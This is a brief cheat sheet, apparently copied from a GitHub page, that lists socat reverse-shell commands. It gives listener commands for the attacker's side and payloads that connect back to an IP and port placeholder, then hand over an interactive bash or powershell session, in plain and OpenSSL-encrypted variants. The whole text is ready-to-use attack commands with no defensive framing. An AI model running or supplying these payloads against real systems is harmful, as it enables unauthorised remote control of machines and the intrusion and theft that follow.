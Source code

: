 + **Socat reverse-shell(listener)**:
```
socat tcp-l:<port> file:`tty`,raw,echo=0
socat openssl-listen:<port>,cert=<cert.pem>,verify=0 file:`tty`,raw,echo=0
```

+ **Socat reverse-shell(linux payload)**:
```
socat tcp:<ip>:<port> exec:"bash -li",pty,stderr,sigint,setsid,sane
socat openssl:<ip>:<port>,verify=0 exec:"bash -li",pty,stderr,sigint,setsid,sane
```

+ **Socat reverse-shell(windows payload)**:
```
socat tcp:<ip>:<port> exec:"powershell.exe",pipes
socat openssl:<ip>:<port>,verify=0 exec:"powershell.exe",pipes
```
